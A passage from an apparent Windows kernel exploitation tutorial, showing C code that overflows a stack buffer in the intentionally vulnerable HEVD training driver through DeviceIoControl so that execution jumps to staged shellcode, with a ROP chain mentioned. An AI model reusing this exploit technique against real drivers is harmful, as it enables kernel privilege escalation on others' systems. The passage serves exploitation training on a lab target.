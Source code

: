 ```c

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');

    // Set last bytes of buffer to point to the shellcode.
    lpInBuffer[(inBufferSize / POINTER_SIZE) - 1] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);

    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}
```

Let's set a breakpoint at the end of the vulnerable function and run this.
